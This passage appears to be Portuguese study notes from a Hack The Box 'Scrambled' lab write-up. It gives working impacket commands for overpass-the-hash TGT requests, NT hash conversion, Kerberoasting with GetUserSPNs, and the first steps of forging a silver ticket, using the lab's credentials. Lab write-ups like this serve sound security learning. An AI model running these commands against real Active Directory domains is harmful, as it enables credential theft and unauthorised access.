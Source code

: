 ```
impacket-getTGT -dc-ip <IP_do_DC> domain/user:password
```

Exemplo

```
impacket-getTGT -dc-ip 10.10.11.168 scrm.local/ksimpson:ksimpson
```

E agora o exemplo com o hash da senha (notem que fiz a conversão da senha para o hash NT):

```
iconv -f ASCII -t UTF-16LE &#x3C;(printf "ksimpson") | openssl dgst -md4
#ou
python -c 'import hashlib,binascii; print(binascii.hexlify(hashlib.new("md4", "ksimpson".encode("utf-16le")).digest()))'
```

```
impacket-getTGT -dc-ip 10.10.11.168 scrm.local/ksimpson -hashes :5f38c0485f0c23f8dedf9bf23ffa5336
```

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption><p>Conversão do NTLM para Kerberos (Over Pass the Hash)</p></figcaption></figure>

Agora já temos condições do obter os hashes de senhas necessários por meio do seguinte comando:

```
export KRB5NAME=/home/acosta/owncloud/Area_de_trabalho/estudos/hack_the_box/scrambled/Administrator.ccache
```

```
impacket-GetUserSPNs scrm.local/ksimpson -k -no-pass -request -dc-host dc1.scrm.local
```

**Dar atenção neste último comando, pois o nome do -dc-host deve ser conforme está no registro de DNS pra que o comando funcione corretamente.**

Agora, temos de fazer o silver ticket

### Silver ticket

Aqui precisamos de algumas informações. **Não necessitamos de um usuário com privilégio administrativo pra esse cara. Isso é IMPORTANTE.**

Então temos que ir atrás de:

1\) Domain SID

2\) Hash

3\) Nome do domínio

4\) SPN

#### Obtendo o domain SID

```
impacket-getPac -targetUser administrator domain/user:password
```
